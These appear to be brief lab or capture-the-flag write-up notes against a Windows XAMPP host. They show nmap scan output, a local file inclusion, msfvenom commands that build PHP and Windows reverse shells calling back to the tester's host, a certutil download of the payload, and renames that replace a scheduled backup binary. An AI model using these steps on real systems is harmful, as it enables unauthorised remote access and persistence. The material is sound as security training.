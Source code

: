 ```sh
nmap -sC -sV 192.168.140.53        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-31 22:24 CST
Nmap scan report for 192.168.140.53
Host is up (0.042s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   GetRequest, JavaRMI, NULL, SIPOptions: 
|_    Host '192.168.49.140' is not allowed to connect to this MariaDB server
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.140.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.140.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=1/31%Time=63D9E99B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.140'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetReques
SF:t,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.140'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOptions
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.140'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(JavaRMI,4D,
SF:"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.140'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-02-01T04:25:20
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

Found the following link `http://192.168.140.53:8080/site/services.php`
Found by visiting portfolios that I am able to change files
`http://192.168.140.53:8080/site/index.php?page=portfolio.php`
I first started by LFI. Realized I could read hosts.
`msfvenom -p php/reverse_php LHOST=192.168.49.140 LPORT=1234 -f raw > phpshell.php `
In the base of the C drive I found Backup
The info.txt reads that it runs ever 5 minutes.
I generated the payload
```
msfvenom -p windows/shell_reverse_tcp LHOST="192.168.49.140" LPORT=21 -f exe > TFTP.EXE
```
Download shell
```
certutil.exe -urlcache -split -f "http://192.168.49.140/TFTP.EXE"
```
`rename TFTP.EXE TFTP.OLD.EXE`
`rename shell.exe TFTP.EXE`

